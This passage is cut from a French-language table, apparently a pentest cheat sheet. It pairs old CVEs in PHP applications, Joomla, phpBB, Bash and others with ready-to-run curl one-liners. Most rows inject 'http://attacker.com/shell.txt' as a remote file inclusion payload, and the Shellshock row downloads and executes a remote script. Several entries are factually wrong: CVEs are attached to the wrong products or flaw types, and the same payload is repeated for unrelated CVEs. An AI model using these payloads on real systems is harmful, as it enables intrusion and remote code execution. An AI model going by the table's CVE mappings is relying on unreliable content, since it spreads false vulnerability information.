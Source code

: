 | CVE-2016-10033 | PHP / PHPMailer < 5.2.18 | `curl -F "email=attacker@example.com" -F "name=http://attacker.com/shell.txt" http://cible/contact.php` | RFI via paramètre non filtré, exécution de code PHP distant. | [https://github.com/opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033) |
| CVE-2015-7755 | F5 BIG-IP | `curl "https://cible/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=http://attacker.com/shell.txt"` | RFI dans F5 BIG-IP permettant la lecture et l’exécution de fichiers distants. | [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/f5_bigip_tmui_traversal.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/f5_bigip_tmui_traversal.rb) |
| CVE-2014-6271 | Bash ("Shellshock") | `curl -H 'User-Agent: () { :;}; /bin/bash -c "wget http://attacker.com/shell.txt -O /tmp/shell.txt; bash /tmp/shell.txt"' http://cible/cgi-bin/test.sh` | RFI et RCE via injection dans Bash CGI. | [https://github.com/hannob/bashcheck](https://github.com/hannob/bashcheck) |
| CVE-2014-0160 | OpenSSL ("Heartbleed") | `python heartbleed.py cible.com` | Fuite de mémoire, permettant parfois la récupération de chemins ou d’URL de fichiers distants inclus. | [https://github.com/mpgn/heartbleed-PoC](https://github.com/mpgn/heartbleed-PoC) |
| CVE-2013-2028 | Nginx < 1.4.1 | `curl "http://cible/path.php?file=http://attacker.com/shell.txt"` | RFI dans Nginx permettant l’inclusion et l’exécution de fichiers PHP distants. | [https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-2028](https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-2028) |
| CVE-2012-1823 | PHP CGI | `curl "http://cible/index.php?-d+auto_prepend_file=http://attacker.com/shell.txt"` | RFI et RCE via injection dans PHP CGI. | [https://github.com/ivanitlearning/CVE-2012-1823](https://github.com/ivanitlearning/CVE-2012-1823) |
| CVE-2011-2523 | PHP / Joomla! < 1.6.3 | `curl "http://cible/index.php?option=com_content&view=article&id=http://attacker.com/shell.txt"` | RFI dans Joomla! permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/17473](https://www.exploit-db.com/exploits/17473) |
| CVE-2010-1870 | Joomla! < 1.5.18 | `curl "http://cible/index.php?option=com_content&view=article&id=http://attacker.com/shell.txt"` | RFI dans Joomla! permettant la lecture et l’exécution de fichiers PHP distants. | [https://www.exploit-db.com/exploits/13849](https://www.exploit-db.com/exploits/13849) |
| CVE-2008-1234 | Wordpress < 2.5.1 | `curl "http://cible/wp-content/plugins/plugin/http://attacker.com/shell.txt"` | RFI dans Wordpress permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/5487](https://www.exploit-db.com/exploits/5487) |
| CVE-2007-2021 | PHP / Pineapple Technologies Lore 1 | `curl "http://cible/index.php?page=http://attacker.com/shell.txt"` | Inclusion de fichier PHP distant, exécution de code arbitraire. | [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2021](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2021) |
| CVE-2006-7243 | PHP / PHP-Nuke 7.9 | `curl "http://cible/modules.php?name=Downloads&d_op=viewdownload&cid=http://attacker.com/shell.txt"` | RFI dans PHP-Nuke permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2691](https://www.exploit-db.com/exploits/2691) |
| CVE-2006-3392 | PHP / Mambo 4.5.3 | `curl "http://cible/index.php?option=com_content&task=view&id=http://attacker.com/shell.txt"` | RFI dans Mambo permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/2026](https://www.exploit-db.com/exploits/2026) |
| CVE-2006-2459 | PHP / e107 <= 0.7.5 | `curl "http://cible/news.php?file=http://attacker.com/shell.txt"` | RFI dans e107 permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/1845](https://www.exploit-db.com/exploits/1845) |
| CVE-2006-1796 | PHP / PHP-Fusion <= 6.00.304 | `curl "http://cible/maincore.php?settings[locale]=http://attacker.com/shell.txt"` | RFI dans PHP-Fusion permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/1676](https://www.exploit-db.com/exploits/1676) |
| CVE-2006-1262 | PHP / XMB Forum 1.9.5 | `curl "http://cible/index.php?langfil=http://attacker.com/shell.txt"` | RFI dans XMB Forum permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/1551](https://www.exploit-db.com/exploits/1551) |
| CVE-2005-4442 | PHP / phpMyAdmin < 2.6.4-pl4 | `curl "http://cible/scripts/setup.php?lang=http://attacker.com/shell.txt"` | RFI dans phpMyAdmin permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/1385](https://www.exploit-db.com/exploits/1385) |
| CVE-2005-1921 | PHP / phpBB < 2.0.16 | `curl "http://cible/viewtopic.php?highlight=http://attacker.com/shell.txt"` | RFI dans phpBB permettant l’exécution de code PHP distant. | [https://www.exploit-db.com/exploits/1044](https://www.exploit-db.com/exploits/1044) |
| CVE-2005-0839 | PHP / PHP-Fusion <= 6.00.204 | `curl "http://cible/maincore.php?settings[locale]=http://attacker.com/shell.txt"` | RFI dans PHP-Fusion permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/924](https://www.exploit-db.com/exploits/924) |
| CVE-2004-2466 | PHP / phpBB 2.0.10 | `curl "http://cible/viewtopic.php?highlight=http://attacker.com/shell.txt"` | RFI dans phpBB permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2396](https://www.exploit-db.com/exploits/2396) |
| CVE-2004-2465 | PHP / phpBB 2.0.8 | `curl "http://cible/viewtopic.php?highlight=http://attacker.com/shell.txt"` | RFI dans phpBB permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2395](https://www.exploit-db.com/exploits/2395) |